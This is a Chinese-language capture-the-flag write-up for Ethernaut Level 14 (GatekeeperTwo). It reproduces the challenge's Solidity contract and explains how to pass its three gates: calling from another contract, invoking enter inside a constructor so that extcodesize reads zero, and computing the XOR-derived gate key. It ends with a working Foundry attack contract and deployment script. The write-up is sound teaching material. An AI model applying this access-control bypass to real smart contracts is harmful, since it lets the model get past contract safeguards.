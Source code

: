 # Ethernaut CTF Writeup

## Level 14 Gatekeeper Two

> 題目: https://ethernaut.openzeppelin.com/level/0x6A77737803b581B79D5323016f59DFbfE681b336

原始碼:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

過關條件: 

- 跨越守衛的守衛並且註冊成為參賽者

解法：

- 通過 `gateOne()`: 交互者要為另一個合約
- 通過 `gateTwo()`: 檢查呼叫者的程式碼大小 (extcodesize) 是否為 0。通常當部署一個合約時，它的程式碼大小會大於 0。然而，在合約的構造函數執行期間，程式碼大小仍然是 0。因此，需要在合約構造函數中呼叫 enter 函數。
- 通過 `gateThree()`: 根據條件可反推 gatekey 為 `bytes8 _gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);`

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import {GatekeeperTwo} from "../src/level14/GatekeeperTwo.sol";

contract GatekeeperTwoAttack {
    GatekeeperTwo public target;

    constructor(address _targetAddress) {
        target = GatekeeperTwo(_targetAddress);

        // Step 1: Calculate _gateKey
        bytes8 _gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);

        // Step 2: Call the `enter` function
        target.enter(_gateKey);
    }
}

contract Attack is Script {
    function run() public {
        vm.startBroadcast();

        GatekeeperTwoAttack attack = new GatekeeperTwoAttack(0x82a72c7eD1c469EA8e17DD87DdcddDf1C5596def);
        
        vm.stopBroadcast();
    }
}

```